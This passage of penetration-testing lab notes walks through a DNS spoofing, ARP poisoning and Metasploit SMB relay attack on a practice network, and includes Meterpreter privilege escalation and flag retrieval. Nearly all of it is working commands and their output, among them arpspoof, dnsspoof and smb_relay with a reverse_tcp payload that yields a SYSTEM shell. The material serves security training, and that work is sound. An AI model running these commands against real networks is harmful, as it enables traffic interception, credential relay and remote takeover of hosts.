Server username: ATTACKDEFENSE\Administrator
```

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

**Step 14**.

`shell`, `where /R C:\\ "flag*"`:
```
C:\FLAG1.txt
```

`type C:\\flag.txt`:
```
0903a189cbe112bce4b75bbc7c50357c
```

---

### DNS and SMB Relay Attack - Lab

You are hired by a small company to perform a security assessment. Your customer is sportsfoo.com and they want your help to test the security of their environment, according to the scope below.

The assumptions of this security engagement are:
- You are going to do an internal penetration test, where you will be connected directly into their LAN network `172.16.5.0/24`. The scope in this test is only the `172.16.5.0/24` segment
- You are in a production network, so you should not lock any user account by guessing their usernames and passwords

The following image represents the LAB environment:


Goals
- Exploitation using *SMB Relay Attack*.
- Manipulating network traffic with *dnsspoof*.

What you will learn
- How to use the SMB Relay Attack in order to compromise patched hosts.
- How to use the dnsspoof tool in order to redirect systems to the host that you control.

Recommended tools
- dnsspoof
- Metasploit

---

Task

Launch an attack using the SMB Relay Exploit in a way that once the Client (`172.16.5.5`) issues a SMB connection to any hosts on the `.sportsfoo.com` domain it can be redirected to your Metasploit server, and then you can use its credentials to get a shell on the target machine (`172.16.5.10`).

This is a graphic that represents how this attack should work:
1. Client (Windows 7) issues a SMB connection to [`\\fileserver.sportsfoo.com\finance$`] at every 30 seconds or so.
2. The attacker machine intercepts this request and spoofs the IP address of `fileserver.sportsfoo.com`.
3. Then the Windows 7 system issues a SMB connection to [`\\172.16.5.101`] (attacker machine) instead of using the real IP of the `fileserver.sportsfoo.com`.
4. The SMB Relay exploit is already listening, receives the SMB connection, and relays the authentication to the target machine. The payload is a Windows Meterpreter shell.
5. Once the exploit authenticates on the target machine, a reverse meterpreter session is provided to the pentester.

---

**Step 1**.

`ip addr | grep inet`:
```
inet 127.0.0.1/8 scope host lo
inet6 ::1/128 scope host 
inet 192.168.0.3/24 brd 192.168.0.255 scope global adlab0
inet6 fe80::a00:27ff:fef9:76b6/64 scope link 
inet 172.16.5.101/24 brd 172.16.5.255 scope global eth1 ←
inet6 fe80::a00:27ff:fed4:ee5d/64 scope link 
```

**Step 2**.

In order to redirect the victim to our Metasploit system every time there is an SMB connection to any host in the domain: `sportsfoo.com`.
Create a file with fake dns entry with all subdomains of `sportsfoo.com` pointing to our attacker machine.

`echo "172.16.5.101 *.sportsfoo.com" > /root/Desktop/dns`.
`dnsspoof -i eth1 -f /root/Desktop/dns`:
```
dnsspoof: listening on eth1 [udp dst port 53 and not src 172.16.5.101]
```
These commands are used to perform the *DNS spoofing*, thereby manipulating DNS responses to redirect DNS traffic to a specific IP address, as specified in the `/root/Desktop/dns` file.

**Step 3**.

Activate the MiTM attack using the *ARP Spoofing* technique.

In order to perform an ARP Spoofing attack, we need to enable the *IP forwarding*.
`echo 1 > /proc/sys/net/ipv4/ip_forward`.

Our goal is to poison the traffic between our victim (`172.16.5.5`) and the default gateway (`172.16.5.1`).
In this way, we can manipulate the traffic using `dnsspoof`, which is already running.
`arpspoof -i eth1 -t 172.16.5.1 172.16.5.5`. This command is used to make the router (`172.16.5.1`) believe that the MAC address associated with the target (`172.16.5.5`) is that of the attacker. This allows the attacker to intercept or manipulate the traffic destined for the target.
`arpspoof -i eth1 -t 172.16.5.5 172.16.5.1`.

**Step 4**.

`msfconsole -q`, `search smb relay`, `use exploit/windows/smb/smb_relay`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set SMBHOST 172.16.5.10`, `set SRVHOST 172.16.5.101`, `set LHOST 172.16.5.101`, `exploit`:
```
[*] Extracting NTLMSSP CHALLENGE from 172.16.5.10
[*] Forwarding the NTLMSSP CHALLENGE to 172.16.5.5:49180
[*] Extracting the NTLMSSP AUTH resolution from 172.16.5.5:49180, and sending Logon Failure response
[*] Forwarding the NTLMSSP AUTH resolution to 172.16.5.10
[+] SMB auth relay against 172.16.5.10 succeeded
[*] Connecting to the defined share...
[*] Regenerating the payload...
[*] Uploading payload...
[*] Created \SEpydFfI.exe...
[*] Connecting to the Service Control Manager...
[*] Obtaining a service manager handle...
[*] Creating a new service...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \SEpydFfI.exe...
[*] Sending stage (175174 bytes) to 172.16.5.10
[*] Meterpreter session 1 opened (172.16.5.101:4444 -> 172.16.5.10:49159) at 2022-01-21 19:48:24 -0500
```

**Step 5**.

`jobs`, `jobs -K`.

`sessions`, `sessions -i 1`, `sysinfo`:
```
Computer        : FILESERVER
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
```

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM
```

---
---
